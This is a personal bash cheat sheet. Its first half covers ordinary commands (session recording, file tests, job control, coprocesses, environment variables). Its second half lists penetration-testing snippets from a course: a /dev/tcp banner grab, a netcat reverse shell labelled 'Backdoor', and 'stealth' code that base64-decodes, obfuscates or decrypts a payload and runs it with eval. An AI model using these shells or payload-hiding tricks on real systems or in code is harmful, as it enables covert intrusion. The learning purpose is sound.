 # Useful linux commands
## Record console session with 'script'
    script [OPTIONS] FILENAME

    $ script output_1.txt
    Script started, file is output_1.txt
    
    $ date
    Wed Aug  5 12:06:50 JST 2020
    
    $ exit
    exit
    Script done, file is output_1.txt

## Record console session from a subshell
    $ bash > output.txt

## Turn the output file from the above command into something readable (it still needs tidying up though) or cat it to the terminal and copy and paste the output
    cat output_1.txt | perl -pe 's/\e([^\[\]]|\[.*?[a-zA-Z]|\].*?\a)//g' | col -b > output_1a.txt

## Key file conditions
    -e file: True if file exists.
    -f file: True if file exists and is a regular file.
    -d file: True if file exists and is a directory.
    -r file: True if file exists and is readable.
    -w file: True if file exists and is writable.
    -x file: True if file exists and is executable.
    -s file: True if file exists and has a size greater than zero.
    -L file: True if file exists and is a symbolic link.
    -N file: True if file exists and has been modified since it was last read.

## Job control
    CTRL-z - suspend a foreground job; use before bg or fg
    bg - put current job in background
    fg - bring current job to foreground
    jobs - list current jobs
    kill - terminate job
    stty tostop - stop a job if it attempts to send output to terminal emulator
    suspend - suspend a job-control shell
    wait - wait for background jobs to finish

## Co-processes
- Connects stdin and stdout to terminal emulator/shell, but not stderr
- Can be named or unnamed
- Only one active co-process at a time

Syntax:

    coproc command args
    coproc name (command args;command args)
Example:

    # Start a named co-process:
    coproc testProc (echo 1;read aline;echo $aline)
    
    # Show file descriptors:
    echo ${testProc[@]}
    
    # Show co-process PID:
    echo $testProc_PID
    
    # Read the first line of output and show it:
    read out <&${testProc[0]}
    echo $out
    
    # Send the co-process some input:
    echo nonsense >&${testProc[1]}
    
    # Read a second line of output:
    read out2 <&${testProc[0]}
    
    # Show the second line of output:
    echo $out2


## List system defined variables
    set
    env
    printenv

## Key system defined variables
1. BASH_VERSION
1. BASH
1. PWD
1. OSTYPE
1. HOME
1. LANG
1. HOSTNAME
1. PATH
1. COLUMNS
1. USER

## Other special variables
![Bash special variables](bash_special_variables.png)

----------

# Bash - selected penetration testing commands
See [Pluralsight - Pen Testing with Bash](https://app.pluralsight.com/library/courses/bash-pen-testing/table-of-contents)
## Network Reconnaissance and Enumeration
### Banner grabbing
    exec 3<>/dev/tcp/google.com/80
    echo -e "GET / HTTP/1.1\nHost: google.com\n\n" >&3
    cat <&3

## Establish a Foothold in a Network
### Backdoor
    SERVER: nc -lnvp 5780
    CLIENT: /bin/bash -i < /dev/tcp/127.0.0.1/5780 1>&0 

### Change MAC address
See [Pluralsight - Pen Testing with Bash](https://app.pluralsight.com/library/courses/bash-pen-testing/table-of-contents)

### ARP spoofing
See [Pluralsight - Pen Testing with Bash](https://app.pluralsight.com/library/courses/bash-pen-testing/table-of-contents)

## Establish a Foothold in a Host
### Sudoers
See [Pluralsight - Pen Testing with Bash](https://app.pluralsight.com/library/courses/bash-pen-testing/table-of-contents)

## Stealth
### Encoding
    base64 unencode.sh > encoded.sh
    eval "$(base64 -d encoded.sh)"

### Obfuscation
Example:

    #!/bin/bash
    a=$1
    z='base64 -d'
    t() {
    	f="echo -e \"$(echo $a | $z) \neval \\ \""
       	echo $f
    }
    z=$(t $a)
    eval $(eval $z | tac)

### Encryption
Example command line:

    openssl aes-256-cbc -a -salt -pbkdf2 -in secrets.txt -out secrets.txt.enc
    openssl aes-256-cbc -d -a -pbkdf2 -in secrets.txt.enc -out secrets.txt.new

Example script:

    #!/bin/bash
    # We ask the user to enter the passphrase, so that it is not hardcoded in the file
    echo "Please enter the passphrase:"
    read passphrase
    # We validate the passphrase
    if [[ -z $passphrase ]]; then
    	echo "Passphrase cannot be empty"
    	exit 1
    fi
    # Encrypted payload contents
    encrypted_payload="U2FsdGVkX18dJ/wcjyjr8Gr7oxlZXQq64dL5LDuBWpFDWkBct9JfH+1Ii6RvC3oK"
    # Decryption code, the passphrase is mypassphrase
    decrypted_payload=$(echo "$encrypted_payload" | openssl aes-256-cbc -d -pbkdf2 -iter 1000 -base64 -pass pass:$passphrase)
    # Execute decrypted payload
    eval $decrypted_payload

